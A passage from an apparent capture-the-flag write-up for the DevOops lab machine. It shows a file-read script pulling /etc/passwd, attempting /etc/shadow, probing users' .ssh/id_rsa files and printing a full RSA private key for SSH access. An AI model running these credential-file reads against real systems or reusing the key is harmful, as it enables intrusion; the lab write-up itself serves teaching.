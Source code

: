 
With this script, we can get whatever file we can read:

    
    
    root@kali# ./devoops_get.py /etc/lsb-release
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
    
    root@kali# ./devoops_get.py /etc/shadow
    [-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.
    

## User Shell - SSH as roosa

### Get RSA key for roosa

With the file read capabilities, first, get a list of users from
`/etc/passwd`, grepping out users who can’t login. I’ll find 3 users:

    
    
    root@kali# ./devoops_get.py /etc/passwd | grep -v -e false -e nologin -e sync
    root:x:0:0:root:/root:/bin/bash
    git:x:1001:1001:git,,,:/home/git:/bin/bash
    roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
    

As SSH is open, check each user for an RSA key:

    
    
    root@kali# ./devoops_get.py /root/.ssh/id_rsa
    [-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.
    root@kali# ./devoops_get.py /home/git/.ssh/id_rsa
    [-] Unable to connect. Either site is down or file doesn't exist or can't be read by current user.
    root@kali# ./devoops_get.py /home/roosa/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAuMMt4qh/ib86xJBLmzePl6/5ZRNJkUj/Xuv1+d6nccTffb/7
    9sIXha2h4a4fp18F53jdx3PqEO7HAXlszAlBvGdg63i+LxWmu8p5BrTmEPl+cQ4J
    R/R+exNggHuqsp8rrcHq96lbXtORy8SOliUjfspPsWfY7JbktKyaQK0JunR25jVk
    v5YhGVeyaTNmSNPTlpZCVGVAp1RotWdc/0ex7qznq45wLb2tZFGE0xmYTeXgoaX4
    9QIQQnoi6DP3+7ErQSd6QGTq5mCvszpnTUsmwFj5JRdhjGszt0zBGllsVn99O90K
    m3pN8SN1yWCTal6FLUiuxXg99YSV0tEl0rfSUwIDAQABAoIBAB6rj69jZyB3lQrS
    JSrT80sr1At6QykR5ApewwtCcatKEgtu1iWlHIB9TTUIUYrYFEPTZYVZcY50BKbz
    ACNyme3rf0Q3W+K3BmF//80kNFi3Ac1EljfSlzhZBBjv7msOTxLd8OJBw8AfAMHB
    lCXKbnT6onYBlhnYBokTadu4nbfMm0ddJo5y32NaskFTAdAG882WkK5V5iszsE/3
    koarlmzP1M0KPyaVrID3vgAvuJo3P6ynOoXlmn/oncZZdtwmhEjC23XALItW+lh7
    e7ZKcMoH4J2W8OsbRXVF9YLSZz/AgHFI5XWp7V0Fyh2hp7UMe4dY0e1WKQn0wRKe
    8oa9wQkCgYEA2tpna+vm3yIwu4ee12x2GhU7lsw58dcXXfn3pGLW7vQr5XcSVoqJ
    Lk6u5T6VpcQTBCuM9+voiWDX0FUWE97obj8TYwL2vu2wk3ZJn00U83YQ4p9+tno6
    NipeFs5ggIBQDU1k1nrBY10TpuyDgZL+2vxpfz1SdaHgHFgZDWjaEtUCgYEA2B93
    hNNeXCaXAeS6NJHAxeTKOhapqRoJbNHjZAhsmCRENk6UhXyYCGxX40g7i7T15vt0
    ESzdXu+uAG0/s3VNEdU5VggLu3RzpD1ePt03eBvimsgnciWlw6xuZlG3UEQJW8sk
    A3+XsGjUpXv9TMt8XBf3muESRBmeVQUnp7RiVIcCgYBo9BZm7hGg7l+af1aQjuYw
    agBSuAwNy43cNpUpU3Ep1RT8DVdRA0z4VSmQrKvNfDN2a4BGIO86eqPkt/lHfD3R
    KRSeBfzY4VotzatO5wNmIjfExqJY1lL2SOkoXL5wwZgiWPxD00jM4wUapxAF4r2v
    vR7Gs1zJJuE4FpOlF6SFJQKBgHbHBHa5e9iFVOSzgiq2GA4qqYG3RtMq/hcSWzh0
    8MnE1MBL+5BJY3ztnnfJEQC9GZAyjh2KXLd6XlTZtfK4+vxcBUDk9x206IFRQOSn
    y351RNrwOc2gJzQdJieRrX+thL8wK8DIdON9GbFBLXrxMo2ilnBGVjWbJstvI9Yl
    aw0tAoGAGkndihmC5PayKdR1PYhdlVIsfEaDIgemK3/XxvnaUUcuWi2RhX3AlowG
    xgQt1LOdApYoosALYta1JPen+65V02Fy5NgtoijLzvmNSz+rpRHGK6E8u3ihmmaq
    82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
    -----END RSA PRIVATE KEY-----
    